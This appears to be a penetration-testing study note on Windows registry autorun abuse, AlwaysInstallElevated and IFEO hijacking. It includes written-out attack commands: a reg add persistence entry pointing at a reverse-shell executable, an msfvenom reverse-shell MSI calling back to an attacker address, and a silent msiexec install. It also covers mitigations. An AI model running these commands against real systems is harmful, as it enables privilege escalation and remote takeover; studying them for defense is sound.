

# Registry Autorun Key Abuse

## Overview
The Windows Registry is the central hierarchical database used to store information necessary to configure the system for one or more users, applications, and hardware devices. Within this massive database, specific "Autorun" or "Run" keys are designated by the operating system to automatically launch programs when the system boots or when a user logs in. 

Much like the physical Startup folders, manipulating these registry keys is a primary method for establishing persistence. However, when the permissions (Access Control Lists or ACLs) on these registry keys—or the executable files they point to—are misconfigured, they become a potent vector for local privilege escalation. This document explores the critical registry keys abused by attackers, the mechanics of the exploitation, and specific high-value targets like the `AlwaysInstallElevated` misconfiguration.

## Critical Autorun Registry Keys
Windows checks several registry locations to determine what to execute upon logon. The most heavily scrutinized by attackers are:

### Current User (HKCU) Keys
These keys execute programs when the specific user logs in. Modifying these provides persistence, not privilege escalation, as the payload runs in the context of the currently compromised user.
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`

### Local Machine (HKLM) Keys
These keys execute programs when *any* user logs in. This is the primary target for privilege escalation. If an attacker can manipulate these keys, they can force the execution of a malicious payload when an Administrator logs onto the system.
- `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
- `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunService` (Less common, but critical)
- `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run`

## Privilege Escalation Vectors

### 1. Weak Registry Key Permissions
By default, standard users have Read access to `HKLM` keys, while only Administrators and SYSTEM have Write access. If a system administrator erroneously alters the permissions of `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` to grant `Full Control` or `Set Value` access to standard users, an attacker can directly add a new value pointing to their malicious payload.

**Exploitation Steps:**
1. **Check Permissions:** The attacker uses PowerShell or Sysinternals `accesschk.exe` to check the ACLs on the registry key.
   ```powershell
   Get-Acl "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" | Format-List
   ```
2. **Modify Registry:** If write access is permitted, the attacker adds a new string value containing the path to their payload.
   ```cmd
   reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "SystemUpdate" /t REG_SZ /d "C:\Temp\reverse_shell.exe" /f
   ```
3. **Execution:** The attacker waits for an Administrator to log in. The payload executes in the Administrator's context.

### 2. Weak Executable File Permissions (The Indirect Hijack)
A more common scenario involves a securely configured registry key that points to an insecurely configured executable. 

For example, `HKLM\...\Run` contains a value `BackupUtility` pointing to `C:\Scripts\BackupApp.exe`. The registry key itself is secure (only Admins can modify it). However, the directory `C:\Scripts\` has weak permissions, allowing standard users to modify or replace `BackupApp.exe`.

**Exploitation Steps:**
1. **Enumerate Keys:** The attacker lists all programs set to run at startup from `HKLM`.
   ```cmd
   reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
   ```
2. **Check File Permissions:** The attacker uses `icacls` to check the permissions of the executables listed in the registry values.
3. **Overwrite:** If the attacker has write access to one of the executables, they replace it with their malicious payload (taking care to back up the original).
4. **Execution:** Upon the next Administrator logon, the registry key legitimately attempts to launch the executable, unwittingly launching the attacker's payload.

## The AlwaysInstallElevated Misconfiguration
While not strictly a "Run" key, `AlwaysInstallElevated` is a registry-based policy setting that is infamous for providing an instantaneous, reliable privilege escalation vector.

Windows Installer (MSI) packages usually run with the privileges of the user who starts them. However, if the `AlwaysInstallElevated` policy is enabled, Windows Installer will install *any* MSI package with `NT AUTHORITY\SYSTEM` privileges, regardless of who initiated the installation.

### Identification
This policy is controlled by two specific registry values. Both must be set to `1` for the vulnerability to exist.
1. `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`
2. `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`

**Querying the Keys:**
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Exploitation
If both keys are set to `1`, exploitation is trivial. The attacker generates a malicious MSI package (e.g., using `msfvenom` or WiX toolset) containing a payload like a reverse shell or a command to add a local administrator.
```bash
# Generating payload on attacker machine
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f msi -o setup.msi
```
The attacker transfers `setup.msi` to the target and executes it silently using `msiexec`.
```cmd
msiexec /quiet /qn /i C:\Temp\setup.msi
```
Because of the policy, the MSI executes invisibly and spawns the reverse shell running as `SYSTEM`.

## ASCII Diagram: AlwaysInstallElevated Attack Flow



## Advanced Vectors: Image File Execution Options (IFEO)
A more advanced registry abuse technique involves the `Image File Execution Options` key located at `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\`. 

IFEO was designed for debugging. It allows a developer to specify that whenever a particular program (e.g., `calc.exe`) is launched, a debugger (e.g., `windbg.exe`) should be launched *instead*, with the original program passed as an argument.
If an attacker can write to this registry key, they can specify a "debugger" for a highly privileged, commonly executed binary (like `magnify.exe` or `utilman.exe` on the lock screen). 

When the user (or SYSTEM, on the logon screen) attempts to run the target program, the attacker's payload executes instead. This is widely known as the "Sticky Keys" attack vector.

## Defenses and Mitigations
1. **Never Enable AlwaysInstallElevated:** There is rarely a legitimate business justification for enabling this policy. It should be disabled via Group Policy across the entire domain.
2. **Restrict Registry Access:** Ensure default ACLs on `HKLM` keys are maintained. Standard users should never have write access to critical configuration hives.
3. **Monitor Registry Changes:** Implement FIM or EDR rules to alert on modifications to `Run`, `RunOnce`, and `Image File Execution Options` keys within the `HKLM` hive.

## Chaining Opportunities
- Requires a user login trigger, similar to [[14 - Startup Applications Abuse]].
- If the payload relies on the `Run` keys and is triggered by an Admin, it will run at Medium Integrity and require a [[12 - UAC Bypass Techniques]] chain.
- IFEO injection on accessibility binaries (utilman.exe) provides unauthenticated SYSTEM access from the RDP/Console login screen.

## Related Notes
- [[14 - Startup Applications Abuse]]
- [[12 - UAC Bypass Techniques]]
- [[02 - Automated Privilege Escalation Tools]]
- [[05 - Windows Services Abuse]]
